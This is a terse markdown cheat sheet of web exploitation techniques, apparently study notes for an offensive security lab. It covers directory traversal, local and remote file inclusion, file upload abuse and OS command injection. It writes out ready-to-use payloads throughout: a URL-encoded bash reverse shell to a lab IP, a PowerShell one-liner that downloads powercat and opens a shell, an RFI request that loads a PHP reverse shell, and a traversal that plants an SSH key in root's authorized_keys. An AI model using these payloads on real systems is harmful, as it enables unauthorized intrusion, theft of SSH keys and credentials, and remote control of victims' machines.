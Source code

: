 # Directory traversal

- Get username 
    
    ``` /etc/passwd ```

- Exploit directory traversals: Get ssh key

    ``` /home/{username}/.ssh/id_rsa
    vim key
    chmod 400 dt_key
     ```
    
-  Window: 
   ``` C:\Users\All Users\ssh\ssh_host_rsa_key.pub  ```

- Encoding special character
    
    e.g. . -> %2f 

- cgi-bin vuln

- Encoding not a must

# File Inclusion Vuln

- Loading a file and attach CMD

- Reverse shell & web shell
## Interesting Arguments
1. ``` powershell.exe -EncodedCommand {base64 command} ```

## Local File Inclusion LFI
- Header poison URL may differs from Log Poisoning 
- TCP reverse shell one-liner
  ``` bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22 ```
1. try find useful password after /etc/passwd for opening services (you scanned!) e.g. redis have rce -> go get ``` /etc/redis/redis.conf ```
2. can use it to priv esc too! -> creating a rogue php inside the file system and load it e.g. /run/redis/test.php || CHECK ALL WRITABLE PATH!!c
### Interesting file path
1. [Windows] Progra~1 = program files | Progra~2 = program files (x86)

### WAF?
1. Only Local host:
- Try adding ``` X-Forwarded-For: 127.0.0.1 ```

## RFI
- Least common (LFI > RFI)
- Host a web server for exposing exploit php 
  
  e.g. php-reverse-shell.php

  ``` python3 -m http.server 80 ```
- open reverse shell server

    ``` nc -lvnp 4444 ```
- RFI request to the website
  
  ``` ?page=http://{ip}/php-reverse-shell.php ```



# File Upload Vuln
 
## w/ Executable Files
- Prepare a file that can run CMD
- Reverse shell
- file type exclusion e.g. php -> pHP
- aspx -> mspx  


## w/o Executable Files
- Generate SSH key 

    ``` ssh-keygen ```

- Directory traversal for http request header
  
    Edit filename

    ``` ../../../../../root/.ssh/authorized_keys ``` : storing ``` 

- Becareful have to remove ```.ssh/known_hosts``` in kali pc since different section computer

- run ``` ssh -i fileup root@{ip} ```

# OS Cmd injection

- Check which command is allow which is not, then use ``` & ``` to piggyback it


- Windows oneliner get vuln file & reverse shell
``` IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell  ```

- exploitable could be ``` ;  && ```
- remember to encode url sometimes
